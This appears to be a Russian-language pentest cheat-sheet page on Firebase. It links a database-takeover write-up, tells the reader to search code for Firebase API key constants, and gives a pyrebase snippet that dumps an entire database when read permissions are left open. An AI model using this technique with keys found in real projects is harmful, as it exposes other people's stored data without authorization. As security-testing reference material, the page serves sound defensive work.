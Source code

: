 # Firebase

## Firebase Database Takeover

Пример пентеста с плохо сконфигурированной базой - [https://medium.com/@danangtriatmaja/firebase-database-takover-b7929bbb62e1](https://medium.com/@danangtriatmaja/firebase-database-takover-b7929bbb62e1)

## Пример поиска и эксплуатации ключей Firebase

1 Ищем по коду подобные константы:  


![](../../.gitbook/assets/izobrazhenie%20%2814%29.png)

Пример работы с firebase базой с помощью `pip install pyrebase`

```text
import pyrebase

config = {
  "apiKey": "FIREBASE_API_KEY",
  "authDomain": "FIREBASE_AUTH_DOMAIN_ID.firebaseapp.com",
  "databaseURL": "https://FIREBASE_AUTH_DOMAIN_ID.firebaseio.com",
  "storageBucket": "FIREBASE_AUTH_DOMAIN_ID.appspot.com",
}

firebase = pyrebase.initialize_app(config)

db = firebase.database()

print(db.get())

```

Этот код отработает, если выставлены permissions на чтение для apiKey

В документации pyrebase можно найти другие примеры по работе с Firebase.

